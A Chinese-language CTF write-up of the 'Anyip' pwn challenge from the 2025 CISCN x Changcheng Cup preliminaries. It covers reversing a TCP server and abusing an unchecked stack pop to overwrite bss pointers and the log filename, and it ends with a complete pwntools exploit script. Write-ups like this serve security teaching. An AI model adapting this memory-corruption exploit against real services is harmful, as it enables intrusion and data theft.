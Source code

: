 ```yaml
---
title: 国赛 x 长城杯 初赛 - Anyip
date: 2025/03/18 18:33:00
updated: 2025/03/24 18:33:00
tags:
    - inetd
    - hard to rev
thumbnail: /assets/ciscnxccb2025/bsslayout.png
excerpt: 通过控制队列的`rear`和树节点，实现了对`logname`的覆盖，最终输出flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

题目实现了一个最基础的tcp服务器，用户需要输入二进制内容和它进行交互。
根据读取缓冲区并parse的函数，可以总结出以下输入的规律：

![struct](/assets/ciscnxccb2025/struct.png)

其中 *action* 可以是`0x1111`, `0x2222`, `0x3333`或`0x4444`，分别对应树打印、
栈操作、树构建和队列操作。

其中栈和队列的操作比较好逆，可以通过 *opt* 来控制退栈和压栈等。
其中logname会在一开始按时间戳生成一个，我们不能通过打log来获取它的输出。
观察到操作栈时，压栈有检查，退栈却没有，分析bss上的布局，
我们可以覆盖到控制队列的`rear`。入队的时候直接用了`rear`来访问队列，
随后`rear = (rear + 1) % 10`，因此我们控制`rear`后可以向后方写入一个数字 *buf* 。
最简单的就是控制`bp`，然后我们就可以无限压栈，压到`sp`后，将`logname`的偏移压入其中，
接着就可以控制log文件的名字了。

![layout](/assets/ciscnxccb2025/bsslayout.png)

再然后就是难逆的树操作了。一开始还不太好看出来，因为有个0x50大小的结构体，
却没有任何信息。最后在一堆函数里找到这么个字符串：`"cannot create std::deque larger than max_size()"`，
借助C++编译一个空的deque然后-g生成调试符号，终于在Ghidra里读到了整个结构体的全貌，
同时也推出了其他的库函数，可以分析了。最后还原出的树构建的函数大约是这样的：

```c tree_operation
struct Node {
    char ch;
    Node *lchild;
    Node *rchild;
} *root;

void insert(char ch) {
    deque<Node *> dequeue;
    Node *node = root;
    dequeue.push_back(node);
    while (!dequeue.empty()) {
        node = dequeue.front();
        if (!node->lchild || !node->rchild)
            break;
        dequeue.push_back(node->lchild);
        dequeue.push_back(node->rchild);
        dequeue.pop_front();
    }
    if (!node->lchild)
        node->lchild = new Node(ch);
    else
        node->rchild = new Node(ch);
}

void tostring(string &acc) {
    Node *node = root;
    while (node || !dequeue.empty())
        if (node) {
            dequeue.push_back(node);
            node = node->lchild;
        } else {
            node = dequeue.back();
            acc += node->ch;
            dequeue.pop_back();
            node = node->rchild;
        }
}
```

{% note green fa-lightbulb %}
当不开优化选项时，C++的大量函数模板实例化后没有内联，导致这道题的很多函数是空的，
逆向难度变相提高了。如果开启了编译选项，结构体信息会全部打包进ELF中，使用反编译软件可以读取之，
从而方便我们backport类的结构体到题目中。（虽然还是要猜它是什么类）
{% endnote %}

根据以上代码，在插入节点时，使用BFS方式填充节点（也就是数组平铺式），
在构建字符串时使用中序遍历取出节点。在树打印函数中，如果中序遍历树得到`SomeIpfun`，
那么就会打开log文件并输出其中的内容。这也是唯一的输出内容的地方。

因此控制树节点使其中序遍历为`SomeIpfun`，并劫持`logname`为`"flag"`就可以输出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anyip'

def payload(lo: int):
    global sh, server
    if lo:
        if lo & 4 or not isinstance(server, process):
            server = process(EXE)
        if lo & 2:
            gdb.attach(server)
        sh = remote('127.0.0.1', 9999)
    else:
        sh = remote('', 9999)

    def encode(op: int, option: int, buf: bytes) -> bytes:
        return p16(op) + b'\0' + p8(option) + p64(0) + p32(0x701) + buf

    def send(buf: bytes):
        sh.send(buf)
        sleep(0.125)

    info('Setting up bp to bypass stack limitation')
    for _ in range(5):
        send(encode(0x2222, 2, b'')) # stack pop
    send(encode(0x2222, 1, b'27'))   # stack push: [rear] = &sp - &queue
    send(encode(0x4444, 1, b'4096')) # queue push: [bp] = 0x1000
    info('Setting sp to 16 to mod logname')
    for _ in range(14):
        send(encode(0x2222, 1, b'0'))
    send(encode(0x2222, 1, b'16'))   # stack push: [sp] = &logname - &stack
    info('Now set logname as "flag"')
    send(encode(0x2222, 1, str(u32(b'flag')).encode()))
    send(encode(0x2222, 1, b'0'))    # logname = "flag"

    info('Setting up char tree')
    sh.send(encode(0x3333, 3, b'p'))
    sh.send(encode(0x3333, 1, b'e'))
    sh.send(encode(0x3333, 1, b'u'))
    sh.send(encode(0x3333, 1, b'o'))
    sh.send(encode(0x3333, 1, b'I'))
    sh.send(encode(0x3333, 1, b'f'))
    sh.send(encode(0x3333, 1, b'n'))
    sh.send(encode(0x3333, 1, b'S'))
    sh.send(encode(0x3333, 1, b'm'))

    info('Now print the flag!!!')
    sh.send(encode(0x1111, 2, b''))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
    sh.close()
```
